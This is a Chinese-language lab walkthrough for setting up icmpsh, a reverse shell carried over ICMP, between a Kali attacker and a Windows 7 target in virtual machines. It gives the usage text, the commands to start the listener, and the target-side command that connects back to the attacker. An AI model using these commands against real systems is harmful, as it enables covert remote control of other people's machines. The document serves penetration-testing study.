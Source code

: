 在目录下输入``./run.sh``开启

[![gWjxET.png](https://z3.ax1x.com/2021/05/18/gWjxET.png)](https://imgtu.com/i/gWjxET)

icmp基本命令：

```
unrecognized option --
icmpsh.exe [options] -t target
options:
  -t host            发送ping请求的主机ip地址
  -r                 发送单个测试icmp请求，然后退出
  -d milliseconds    毫秒请求之间的延迟（毫秒）（默认值为200）
  -o milliseconds    毫秒超时（毫秒）
  -h                 此屏幕
  -b num             最大空白数（未响应的icmp请求） 
                     退出前
  -s bytes           字节最大数据缓冲区大小（字节）（默认值为64字节）

为了提高速度，降低请求之间的延迟（-d）或 增加数据缓冲区的大小（-s）
```

> 实验环境：
>
> 虚拟机模拟公网
>
> Kali: 192.168.78.129
>
> win7: 192.168.78.128

在Kali上打开icmpsh :在icmpsh当前目录下输入 ``./run.sh``。会提示输入目标的IP地址(目标主机的公网IP地址)。

```
192.168.78.128

python2 icmpsh_m.py 192.168.78.129 192.168.78.128
```

[![gfP7X4.png](https://z3.ax1x.com/2021/05/18/gfP7X4.png)](https://imgtu.com/i/gfP7X4)

但是最后都报了错

[![gfG9v4.png](https://z3.ax1x.com/2021/05/18/gfG9v4.png)](https://imgtu.com/i/gfG9v4)

所以换一个：编译一个二进制可执行文件。

```
gcc icmpsh-m.c -o icmpsh
./icmpsh 192.168.78.129 192.168.78.128
```

可以看到已经在runing....

然后在将icmpsh.exe上传到目标机上，在目标主机上查看其IP地址，然后输入如下命令：

```
icmpsh.exe -t 192.168.78.129 -d 500 -b 30 -s 128
```

